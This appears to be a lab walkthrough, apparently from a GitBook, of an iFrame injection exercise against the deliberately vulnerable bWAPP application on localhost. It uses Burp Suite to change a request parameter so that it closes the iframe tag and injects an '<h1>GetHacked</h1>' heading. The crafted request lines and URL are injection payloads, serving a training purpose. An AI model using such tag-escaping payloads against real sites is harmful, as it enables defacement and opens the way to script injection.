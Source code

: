 # iFrame Injection

<figure><img src="../.gitbook/assets/1 (47).png" alt=""><figcaption></figcaption></figure>

Let's intercept the request in Burpsuite.

<figure><img src="../.gitbook/assets/5 (37).png" alt=""><figcaption></figcaption></figure>

* We can now forward this request to the `Repeater` in order to make modifications to it.

<figure><img src="../.gitbook/assets/2 (45).png" alt=""><figcaption></figcaption></figure>

As we can see the URL is being used to complete the `<iframe>` tag.

Let's try to escape the tag by using the following request URL:

```
GET /bWAPP/iframei.php?ParamUrl=robots.txt&ParamHeight=250&ParamWidth=250"></iframe> HTTP/1.1
```

<figure><img src="../.gitbook/assets/3 (41).png" alt=""><figcaption></figcaption></figure>

We can see that the `</iframe>` tag set by the application now is a lone closing tag. This proves that we have successfully escaped the tag.

We can now perform a regular HTML URL injection.

```
GET /bWAPP/iframei.php?ParamUrl=robots.txt&ParamHeight=250&ParamWidth=250"></iframe><h1>GetHacked</h1> HTTP/1.1
```

<figure><img src="../.gitbook/assets/4 (37).png" alt=""><figcaption></figcaption></figure>

We can even do the same exploit directly in the browser using the following URL:

```
http://localhost/bWAPP/iframei.php?ParamUrl=robots.txt&ParamHeight=250&ParamWidth=250"></iframe><h1>GetHacked</h1>
```

<figure><img src="../.gitbook/assets/6 (37).png" alt=""><figcaption></figcaption></figure>

We can see our message `<h1>` tags.
